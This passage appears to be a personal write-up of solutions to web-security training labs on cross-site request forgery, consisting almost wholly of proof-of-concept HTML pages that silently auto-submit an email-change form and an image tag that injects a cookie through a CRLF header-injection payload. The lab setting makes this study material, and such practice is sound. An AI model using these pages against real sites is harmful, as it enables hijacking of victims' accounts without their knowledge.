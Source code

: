```

    <script>
      // Automatically submit the form on page load
      document.forms[0].submit();
    </script>
  </body>
</html>
```
# Lab 4: CSRF TOKEN WERE NOT TIED TO USER SECTION
- SOlUTION TO THIS LAB
```
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF PoC</title>
  </head>
  <body>
    <form action="https://0ab50082036063cc80a112dc0081008a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="bee@test.com">
      <input type="hidden" name="csrf" value="9Y0HPjXgogFOQnyPD69MOktzslspDEde">
      <input type="submit" value="Click me">
    </form>

    <script>
      // Auto-submit the form
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# LAB 5: CSRF where token is tied to non-session cookie
```
<img src='https://0add000703ffaefd8049498800e000bc.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=TdnrIfZT1PJRDeggKBLh7wAn99OY1NnC%3b%20SameSite=None' onerror='document.forms[0].submit()' >
```

```
<html>
  <head>
    <title>CSRF PoC</title>
  </head>
  <body>
    <form action="https://0add000703ffaefd8049498800e000bc.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="bee@test.com">
      <input type="hidden" name="csrf" value="Tm1OEUVAkvAi5JOjFbbYSTX084ZBkWwT">
      <input type="submit" value="Click me">
    </form>

    <img src='https://0add000703ffaefd8049498800e000bc.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=TdnrIfZT1PJRDeggKBLh7wAn99OY1NnC%3b%20SameSite=None' onerror='document.forms[0].submit()' >
  </body>
</html>
```
